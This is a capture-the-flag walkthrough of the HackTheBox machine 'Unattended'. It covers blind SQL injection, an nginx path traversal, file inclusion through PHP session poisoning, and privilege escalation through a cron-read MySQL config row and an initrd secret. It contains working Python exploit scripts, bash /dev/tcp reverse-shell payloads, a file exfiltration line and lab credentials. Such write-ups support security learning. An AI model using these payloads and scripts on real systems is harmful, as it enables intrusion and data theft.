

Unattended box was a MEDIUM box from HackTheBox, but in my opinion it would be harder or even insane. We got some good points to play with on the web page, the first shell we got with a blind SQLI on the box which lead us to one LFI and after a Path Trasnversal.

The guly user is trough a mysql routine running on mysql, hard to see.

The root was with a encrypted disk.

The auto exploit to www-data is on the body of the post. Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.126
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


We add both **nestedflanders.htb** and **www.nestedflanders.htb** to my hosts file.


## Port 80

We try to open it on the browser


Just one dot.

## Port 443

When we try to access www.nestedflanders.htb it redirect us to https


We try to see the certificate


Nothing useful until now. We accept and it's a standard apache page


We run gobuster to see if we got something new on www.nestedflanders.htb

```sh
gobuster dir -k -u https://www.nestedflanders.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php
```


Found the `dev` and `index.php`

### dev

I tried to open the dev folder in it


**dev site has been moved to his own server**

So, I tried the subdomain dev

`dev.nestedflanders.htb`


Nothing useful


### index.php

The .php file called my attention because the index one is the html

It has three menus in it


Main, About and Contact. The most important part is that they are with `id` in it. Suggesting a SQLInjection in it

I will always check for SQL injection just by adding a ' to the end of the url. In this case, it seems to handle it fine:


This is the id 25, but when I tried the other ones, something weird happens


id=465' redirects me to the main page.

#### SQLInjection PoC

If we try the query

`id=465' or 1=1-- -` It is true, because 1 is always equal 1. It shows me the page 465


If I try `id=465' or 1=2-- -`. It shows me the main page


So that's it the PoC. Let's try to extract some kind of information with that.

I can brute force character by character of database version replacing the 1=1 with substring(@@version,1,1)=X to check if the first character is X.

`id=465' or substring(@@version,1,1)=X-- -`

I found that the first character of the version is 1


Now, let's automate it.

# SQLInjection Script

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


sqli_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# SQLInjection Blind Version Extract - Unattended HackTheBox

import argparse
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def getVersion(rhost):
    sqli_target = 'https://' + rhost +"/index.php?id=465'"
    limit = 1
    char = 42
    prefix = []
    print("[+] The version of MySQL is.... [+]")
    while(char!=123):
        injection_string = "and ascii(substring(version(),%d,1))= %s -- -" %(limit,char)
        target_prefix = sqli_target + injection_string
        response = r.get(target_prefix,proxies=proxies,verify=False,cookies=r.cookies).text
        # On the if put a error message (not success)
        if "we are very sorry to show" not in response:
            prefix.append(char)
            limit=limit+1
            extracted_char = ''.join(map(chr,prefix))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
            char=42
        else:
            char=char+1
            prefix = []

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's get the version of it
    getVersion(rhost)

if __name__ == '__main__':
    main()
```

Let's continue.

# NGINX Bug

There is another vuln in it. When we accessed the dev path it showed us a text about it has been moved to other place. If dev were hosted on a different subdomain, but in the nested flanders host?!

We get a good blog form [acunetix](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) where this bug was very well explained

Based on the folder structure of the page, we can conclude that

```
/
  var
    www
      html
      dev
```

The request for:

GET /dev../html/ shows me a 200


And we can get the index.php file with

GET /dev../html/index.php HTTP/1.1


index.php

```php
<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; } 
	
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		$ret = $row['name'];
	}
	} else {
		$ret = 'main';
	}
	if ($debug) { echo "rettpl: $ret<br>\n"; }
	return $ret;
}

function getPathFromTpl($conn,$tpl) {
	global $debug;
	$sql = "SELECT path from filepath where name = '".$tpl."'";
	if ($debug) { echo "sqlpath: $sql<br>\n"; }
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);
?>

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Ne(ste)d Flanders</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="bootstrap.min.css">
  <script src="jquery.min.js"></script>
  <script src="bootstrap.min.js"></script>
</head>
<body>

<div class="container">
  <h1>Ne(ste)d Flanders' Portfolio</h1>
</div>

<div class="container">
<div center class="row">
<?php

$sql = "SELECT i.id,i.name from idname as i inner join filepath on i.name = filepath.name where disabled = '0' order by i.id";
if ($debug) { echo "sql: $sql<br>\n"; }

$result = $conn->query($sql);
if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		//if ($debug) { echo "rowid: ".$row['id']."<br>\n"; } // breaks layout
		echo '<div class="col-md-2"><a href="index.php?id='.$row['id'].'" target="maifreim">'.$row['name'].'</a></div>';
		}
} else {
?>
	<div class="col-md-2"><a href="index.php?id=25">main</a></div>
	<div class="col-md-2"><a href="index.php?id=465">about</a></div>
	<div class="col-md-2"><a href="index.php?id=587">contact</a></div>
	<?php
}

?>
</div> <!-- row -->
</div> <!-- container -->


<div class="container">
<div class="row">
<!-- <div align="center"> -->
<?php
include("$inc");
?>
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->
<?php if ($debug) { echo "include $inc;<br>\n"; } ?>

</body>
</html>

<?php
$conn->close();
?>
```

## Find LFI

Now we can start looking for vulnerabilities on this page... The part most took my attention was this snippet of the code

```php
<?php
include("$inc");
?>
```

What is inc?

```php
$inc = getPathFromTpl($conn,$tpl);
```

And here, the functions

```php
function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; } 
	
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		$ret = $row['name'];
	}
	} else {
		$ret = 'main';
	}
	if ($debug) { echo "rettpl: $ret<br>\n"; }
	return $ret;
}

function getPathFromTpl($conn,$tpl) {
	global $debug;
	$sql = "SELECT path from filepath where name = '".$tpl."'";
	if ($debug) { echo "sqlpath: $sql<br>\n"; }
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}
```

The function getTplFromID takes an `$id` from the get request and return a template name (stored as `$tpl`). The second function takes that templace name and returns the path to the file to include (stored as `$inc`). Each function does an sql look-up.

I can control the id parameter, so I need to see what we can do

```php
function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; } 
```

Here we have the check to see what is being passed as id value

1 - `array_key_exists('id', $_GET)` - Yes, just check if the value exist, that's easy to bypass

2 - `intval($_GET['id']) == $_GET['id']` - This is a little bit harder. `intval` will try to process the string such that if it starts with an int, that is what’s used and the rest is dropped.


## PHP Loose Compararison

== -> Loose Comparisons

=== -> Strict Comparisons

Here is where the vulnerability starts, the developer of the app used a technique called loose comparison, is the difference betwen == and === in php

[Link](https://stackoverflow.com/questions/80646/how-do-the-php-equality-double-equals-and-identity-triple-equals-comp) on this website you can find a small explanation about it

We can use the following query on the database

`SELECT name FROM idname where id = $_GET['id']`

So, I'll submit on the page `25' and 1=2 UNION select 'about'-- -`

It worked because showed me the about page


Now that I can put whatever I want into tpl, I’ll inject again to control what is included in the page. From the source, I see the SQL query will be:

`SELECT path from filepath where name = $tpl`

So fully control tpl value, I want the query to look like:

`SELECT path from filepath where name = 0x4rt3mis UNION select /etc/passwd`

Once I know that the table 0x4rt3mis does not exist on the server, it will process only the /etc/passwd

`25' and 1=2 UNION select '0x4rt3mis\' union select \'/etc/passwd\'-- -'-- -`


# www-data Shell

Now that we know that we can read files on the server, let's start getting a reverse shell in it

We can do some log poisoning in php apache logs.

We will write a php shell into a cookie so that it poisons the php session data, and read that out of /var/lib/php/sessions/, the session will be my cookie

`/var/lib/php/sessions/sess_8ubjns4fqnj0c1oioc5121vo90`


If I can control the cookie, what would if I add a new cookie in it?


Yes we can, what if we add a php code in the cookie?

`<?php system($_GET['cmd']); ?>`


And here we have RCE on the box... now let's get a reverse shell

`bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'`


Now, let's automate it to better get shell on the box

auto_wwwdata.py


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - www-data - Unattended HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import urllib.parse
import urllib3

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Exploit
def getReverse(rhost,lhost,lport):
    url = "https://%s/index.php?" %rhost
    # Get to get the phpsessid
    r.get(url, verify=False, proxies=proxies)
    php_value = r.cookies['PHPSESSID']
    # Setting the php malicious to the browser and the phpsseid in the correct order to trigger the execution
    my_super_cookie = requests.cookies.create_cookie('0x4rt3mis',"<%3fphp+system($_GET['cmd'])%3b+%3f>")
    r.cookies.set_cookie(my_super_cookie)
    print("[+] Now Let's get the reverse shell! [+]")
    payload = {
    'cmd': "bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'" %(lhost,lport),
    'id': "25' and 1=2 UNION select '0x4rt3mis\\' union select \\'/var/lib/php/sessions/sess_%s\\'-- -'-- -" %php_value
}
    payload_str = urllib.parse.urlencode(payload, safe="\'\>/")
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies, verify=False)
    # Just got the reverse shell with two get, only one did not work (don't know why, haha)
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies, verify=False)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--ip', help='Local IP Reverse Shell', required=True)
    parser.add_argument('-p', '--port', help='Local Port Reverse Shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

# www-data -> Guly

Now we connect on the mysql with the credentials we grab earlier

```sh
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
```


```sql
use neddy;
show tables;
select * from config;
```

Interesing set on row 86 checkrelease

```
/home/guly/checkbase.pl;/home/guly/checkplugins.pl;
```


I can't read this script, but seems to be executing it, so if I try to add some command that I can try to see if it's being someway executed

```
update config set option_value = "'id > /var/www/html/test.txt'" where id = 86;
select * from config where id = 86;
```

One minute after it was reseted to the default


And we see that the file test.txt was created


So, I will get a reverse shell now

We change it again

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
use neddy;
update config set option_value = "bash -c 'bash -i >& /dev/tcp/10.10.14.20/80 0>&1'" where id = 86;
select * from config where id = 86;
```


Wait one minute and get a reverse shell as gully


# gully --> Root

Now let's get root on this box

Looking at the groups we see that we are part of the group `grub`, it seems interesting


We look for the partitions that we have mounted on the file system

```sh
mount
find / -group grub -ls 2>/dev/null
```


We send it to our Kali to analyse the disk better

```sh
cat initrd.img-4.9.0-8-amd64 > /dev/tcp/10.10.14.20/443
nc -nlvp 443 > init.img
```


We decompress it


Ok, it's a file system, on the box we look for files created after the flag user date, to see what has been changed

```sh
find . -type f -newermt 2018-12-19 ! -newermt 2018-12-21 -ls
```


Looking at the script we found a password


`c0m3s3f0ss34nt4n1`

We prepare our box to be the same as the box


And run the command we found on the script

```sh
./sbin/uinitrd c0m3s3f0ss34nt4n1
```

We got a password


**132f93ab100671dcb263acaf5dc95d8260e8b7c6**

We try to su with it, and got root

